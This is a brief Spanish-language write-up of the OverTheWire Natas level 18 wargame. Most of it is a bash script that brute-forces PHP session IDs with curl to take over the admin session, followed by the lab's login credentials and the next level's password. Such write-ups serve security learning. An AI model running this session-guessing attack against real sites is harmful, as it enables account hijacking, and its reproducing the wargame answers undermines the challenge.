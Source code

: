 ```yaml
---
title: Natas-18
published: true
---
```


Hay varias tecnicas para hackear la cookie en PHP. El server configura la cookie con el parametro httpOnly con lo que decidi intentar acertar mediante fuerza bruta (Session Prediction)

```bash
#!/bin/bash
count=0

# $maxid = 640; // 640 should be enough for everyone 
while [ 640 -ge $count ]
do
	output=$(curl -s -u natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP -X POST -F username=admin -F password=12345 --cookie "PHPSESSID=$count" http://natas18.natas.labs.overthewire.org/ | wc -m)

	# Si wc -m es 1000, la salida html sera que no te has logeado como admin,
	# si es distinto sera la solucion o otro tipo de salida.

	if [[ $output != 1000 ]]; then
		echo "PHPSESSID -> $count"
		break
	fi

	echo "retry $count"
	let count=count+1
done

# Username: natas19
# Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

```

